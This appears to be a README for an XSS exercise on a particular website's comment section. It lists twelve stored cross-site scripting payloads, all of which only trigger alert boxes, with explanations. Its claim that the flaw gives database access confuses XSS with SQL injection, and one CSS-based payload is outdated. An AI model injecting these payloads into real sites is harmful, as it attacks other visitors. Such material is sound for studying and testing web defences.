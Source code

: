 # Website Link : 

This website is vulnerable in XXS(Cross-Site Scripting).The user input from the comment section is not validated and sanitized.Due to that, XSS scripts(Javascript codes in usual) can be included in the comments.

# XXS(Cross-Site Scripting) Vulnerability Experiment

## Overview

This section documents the XXS vulnerabilities identified in the website []. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## XSS payloads

PLEASE DELETE A COMMENT AFTER THE EXECUTIONS OF THIS COMMENT.WHICH AFFECT THE ANOTHER USER AND YOUR EXPRIENCE.

### 1. Simple Script Alert:
```HTML
<script>alert(\'SCRIPT ALERT\');</script>
```
Explanation: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, causing an alert box to pop up with the message "SCRIPT ALERT".

NOTE : the backslash (\) before the single quote (') inside the string tells the interpreter to treat it as a literal character rather than the end of the string.Because comments are passes through the query to save in database, without using backslash causes error and stop the execution of webpage 

### 2. Image Tag with JavaScript:
```HTML
<img src="x" onerror="alert(\'HACKED\')">
```
Explanation: This payload uses an <img> tag with a broken src attribute (x). The onerror attribute specifies JavaScript code to run if an error occurs while loading the image. In this case, it triggers an alert with the message "HACKED".

### 3. Anchor Tag with JavaScript:
```HTML
<a href="javascript:alert(\'YOUR DEVICE IS HACKED\')">Click me</a>
```
Explanation: This payload uses an <a> (anchor) tag with an href attribute set to a JavaScript URI. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "YOUR DEVICE IS HACKED".

### 4. Event Handler in a Div:
```HTML
<div onmouseover="alert(\'Do not Touch me\')">Hover over me</div>
```
Explanation: This payload uses a <div> tag with an onmouseover event handler. When the user hovers over the div, the browser executes the JavaScript code, causing an alert with the message "Do not Touch me".

### 5. Body Tag with Onload Event:
```HTML
<body onload="alert(\'DELETE ME\')">
```
Explanation: This payload uses the <body> tag with an onload event handler. When the page loads, the browser executes the JavaScript code, causing an alert with the message "DELETE ME".

### 6. Encoded Characters:
```HTML
<svg onload=alert(\'SVG loaded\')>
```
Explanation: This payload uses an <svg> (Scalable Vector Graphics) tag with an onload event handler. When the SVG is loaded, the browser executes the JavaScript code, causing an alert with the message "SVG loaded".

### 7. Input Field with JavaScript:
```HTML
<input type="text" value="TEXT" onfocus="alert(\'YOU CAN NOT OVERWRITE\')">
```
Explanation: This payload uses an <input> tag with an onfocus event handler. When the user focuses on the input field (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".
Note : After execution of this comment, if you receive alert message continously just reload the page.

### 8. Malicious URL:
```HTML
<a href="https://fruits.selfmade.solutions" onclick="alert(\'Are you sure?\')">Malicious Link</a>
```
Explanation: This payload uses an <a> (anchor) tag with an onclick event handler. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "Are you sure?".

### 9. Textarea Tag:
```HTML
<textarea onfocus="alert(\'YOU CAN NOT OVERWRITE\')">Focus on me</textarea>
```
Explanation: This payload uses a <textarea> tag with an onfocus event handler. When the user focuses on the textarea (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".
Note : After execution of this comment, if you receive alert message continously just reload the page.

### 10. Iframe Tag:
```HTML
<iframe src="javascript:alert(\'New Website availble in comment\')"></iframe>
```
Explanation: This payload uses an <iframe> tag with a src attribute set to a JavaScript URI. When the iframe loads, the browser executes the JavaScript code, causing an alert with the message "New Website availble in comment".

### 11. Style Tag with JavaScript:
```HTML
<style>body{background:url("javascript:alert(\'Background Hacked\')");}</style>
```
Explanation: This payload uses a <style> tag to inject CSS that sets the background of the <body> to a JavaScript URI. When the browser parses the CSS, it executes the JavaScript code, causing an alert with the message "Background Hacked".

### 12. SVG with Embedded JavaScript:
```HTML
<svg><script>alert(\'SVG executed\')</script></svg>
```
Explanation: This payload uses an <svg> tag to embed an <script> tag. When the SVG is loaded, the browser executes the JavaScript code inside the <script> tag, causing an alert with the message "SVG executed".
